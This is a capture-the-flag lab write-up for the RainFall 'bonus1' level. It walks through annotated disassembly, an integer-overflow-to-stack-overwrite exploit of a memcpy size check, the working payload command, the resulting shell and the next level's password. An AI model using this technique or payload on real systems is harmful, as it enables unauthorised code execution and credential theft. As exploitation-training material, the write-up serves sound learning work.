 [README](../README.md)
# bonus 1

```
bonus1@RainFall:~$ ./bonus1 
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 a
```
The program expect at least 1 argument
## Disassembly

```
0x08048424 <+0>:	push   %ebp
0x08048425 <+1>:	mov    %esp,%ebp
0x08048427 <+3>:	and    $0xfffffff0,%esp
0x0804842a <+6>:	sub    $0x40,%esp           // Allocate 64 bytes on the stack
0x0804842d <+9>:	mov    0xc(%ebp),%eax       // Get the 1st arg - argv[0]
0x08048430 <+12>:	add    $0x4,%eax            // move the address to argv[1]
0x08048433 <+15>:	mov    (%eax),%eax          // dereference argv[1] and store it value in eax
0x08048435 <+17>:	mov    %eax,(%esp)
0x08048438 <+20>:	call   0x8048360 <atoi@plt> // call atoi with eax value moved to the top of the stack
0x0804843d <+25>:	mov    %eax,0x3c(%esp)      // move the return value of atoi at on offset of 0x3c from esp 
0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)      // compare (less) this value to 9 decimal
0x08048446 <+34>:	jle    0x804844f <main+43>  // if argv[1] <= 9 then jumps
0x08048448 <+36>:	mov    $0x1,%eax            // return value = 1
0x0804844d <+41>:	jmp    0x80484a3 <main+127> // otherwise go the end of main function
0x0804844f <+43>:	mov    0x3c(%esp),%eax      // move atoi(argv[1]) into eax 
0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx    // ecx = 4 * eax
0x0804845a <+54>:	mov    0xc(%ebp),%eax       // move the addr 0xc above ebp into eax
0x0804845d <+57>:	add    $0x8,%eax            // add 0x8 to eax
0x08048460 <+60>:	mov    (%eax),%eax          // dereference eax
0x08048462 <+62>:	mov    %eax,%edx            // edx = eax
0x08048464 <+64>:	lea    0x14(%esp),%eax      // ax = esp + 0x14 (destination address for memcpy)
0x08048468 <+68>:	mov    %ecx,0x8(%esp)       // move ecx to offset 0x8 from esp (size parameter for memcpy)
0x0804846c <+72>:	mov    %edx,0x4(%esp)       // move edx to offset 0x4 from esp (source address for memcpy)
0x08048470 <+76>:	mov    %eax,(%esp)          // move eax to the top of the stack (destination address for memcpy)
0x08048473 <+79>:	call   0x8048320 <memcpy@plt>   // memcpy(dest = 0x14(esp) , source = edx, num = ecx)
0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)   // compare a constant value to the result of atoi(argv[1])
0x08048480 <+92>:	jne    0x804849e <main+122>     // if not equal, jump to the failure condition
0x08048482 <+94>:	movl   $0x0,0x8(%esp)           // set argument 3 of execl to 0 (end of arguments)
0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)     // set argument 2 of execl to "/bin/sh"
0x08048492 <+110>:	movl   $0x8048583,(%esp)        // set argument 1 of execl to "sh"
0x08048499 <+117>:	call   0x8048350 <execl@plt>    // execl("/bin/sh", "sh", 0)
0x0804849e <+122>:	mov    $0x0,%eax                // return value = 0
0x080484a3 <+127>:	leave  
0x080484a4 <+128>:	ret  
```


## Exploit
The first condition requires `atoi(argv[1])` to be less than 10.
- we can use any negative integer

Later the value of `atoi(argv[1])` will be multiplied by 4 and used as `n` parameter of `memcpy` giving the amount of bytes to copy.

The last condition check if the value of `atoi(argv[1])` is strictly equal to `0x574f4c46` -> decimal 1464814662

The buffer size used for the destination string of memcpy can be calculated:
- `0x14(%esp)` is used as the destination address for the memcpy function. This means that str starts at an offset of 0x14 from the esp register.
-  Since the stack frame size is `0x40` bytes `(sub $0x40,%esp)`, and str starts at an offset of 0x14, we can calculate the size of str as `0x40 - 0x14 = 0x2C` bytes.

```
0x0804845d <+57>:   add    $0x8,%eax            // Add 0x8 to eax
0x08048460 <+60>:   mov    (%eax),%eax          // Dereference eax
```
There is also an int stored on the stack, taking 4 bytes of space, so the actual buffer size is 40 bytes.

The str is above the stored in, if we can use `memcpy` with 44 bytes we can overwrite the value of the int.

We need to be able to copy 44 bytes, the value of `argv[1]` should be:
`-2147483637` which will give us 44 when multiplied by 4.

```
./bonus1 -2147483637 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ pwd
/home/user/bonus1
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```